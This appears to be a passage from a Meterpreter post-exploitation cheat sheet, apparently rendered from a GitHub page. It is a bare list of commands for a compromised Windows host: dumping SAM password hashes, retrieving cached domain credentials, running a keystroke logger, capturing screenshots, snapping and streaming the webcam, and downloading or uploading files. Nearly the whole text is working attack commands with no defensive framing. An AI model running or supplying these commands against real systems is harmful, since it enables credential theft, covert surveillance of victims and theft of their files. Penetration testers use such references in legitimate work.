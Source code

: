 - Dump password hashes (dumps the password hashes from the target system's SAM database (Windows)):

```
hashdump
```

- Retrieve cached domain credentials (Windows):

```
run post/windows/gather/credentials/lsa_cache
```

- Start keystroke logger:

```
keyscan_start
```

- Dump keystroke logs:

```
keyscan_dump
```

- Stop keystroke logging:

```
keyscan_stop
```

- Capture a screenshot:

```
screenshot
```

- Capture from webcam:

```
webcam_snap
```

- Stream from webcam:

```
webcam_stream
```

- List directory contents:

```
ls
```

- Download a file:

```
download <file_path>
```

- Upload a file:

```
upload <local_file> <target_directory>
```
